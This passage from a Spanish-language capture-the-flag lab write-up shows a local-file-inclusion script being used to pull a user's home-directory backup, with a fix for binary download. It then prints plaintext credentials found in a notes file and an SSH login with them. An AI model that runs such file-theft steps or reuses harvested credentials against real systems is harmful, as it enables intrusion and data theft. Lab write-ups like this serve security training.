 Se está creando un comprimido de todo lo que hay en el directorio personal del usuario ```bean```. Me lo traigo y lo almaceno en un archivo

```null
python3 lfi.py /home/bean/Documents/backup/bean_backup_final.tar.gz > file.tar.gz
```

Pero así se corrompe

```null
tar -xf file.tar.gz

gzip: stdin: not in gzip format
tar: Child returned status 1
tar: Error is not recoverable: exiting now
```

Para solucionarlo, basta con cambiar ```r.text``` por

```null
with open("file.tar.gz", "wb") as f:
f.write(r.content)
```
en el script de python 

```null
python3 lfi.py /home/bean/Documents/backup/bean_backup_final.tar.gz
```

En ```.config/xpad``` hay un archivo con credenciales en texto claro

```null
cat content-DS1ZS1
TO DO:
- Get real hat prices / stock from Christine
- Implement more secure hashing mechanism for HR system
- Setup better confirmation message when adding item to cart
- Add support for item quantity > 1
- Implement checkout system

boldHR SYSTEM/bold
bean.hill
014mrbeanrules!#P

https://www.slac.stanford.edu/slac/www/resource/how-to-use/cgi-rexx/cgi-esc.html

boldMAKE SURE TO USE THIS EVERYWHERE ^^^/bold# 
```

Gano acceso al sistema

```null
ssh bean@10.10.11.185
bean@10.10.11.185's password: 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Sun Oct 23 21:38:08 2022 from 10.10.14.6
bean@awkward:~$ 
```
